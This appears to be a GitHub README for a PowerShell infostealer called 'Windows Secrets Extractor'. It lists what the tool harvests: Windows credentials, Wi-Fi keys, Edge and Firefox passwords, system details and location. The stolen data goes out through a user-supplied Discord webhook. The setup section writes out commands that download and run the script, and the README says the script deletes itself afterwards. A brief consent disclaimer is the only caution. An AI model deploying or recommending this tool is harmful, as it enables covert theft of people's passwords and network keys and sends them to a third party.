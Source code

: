 # Windows Secrets Extractor

**Windows Secrets Extractor** allows you to get (in clear text) windows "secrets" informations such as :
- Windows informations (Os name & version, Username, Domain etc...)
- Windows Credentials
- Windows WLAN & Keys
- Edge Credentials
- FireFox Credentials
- Computer Location

***

### Requirements
- PowerShell [CredentialManager](https://www.powershellgallery.com/packages/CredentialManager/2.0) Module : ``Install-Module -Name CredentialManager``
- (Optionnal) Python 3


### Before Usage
- Create a Discord WebHook [help](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks)
- Adapt line ``8`` and enter your WebHook URL.

***

### Usage
1. Download the script :

```
Invoke-WebRequest https://raw.githubusercontent.com/danglock/Windows-Secrets-Extractor/main/extractor.ps1 -outfile $env:USERPROFILE\extractor.ps1
```

3. Run the Script :

```
cd $env:USERPROFILE;.\extractor.ps1
```

Note: the script will auto-destroy after execution

***
Be careful, I am not responsible for your use of this script.
Please do not use it against machines whose owner has not given you their consent
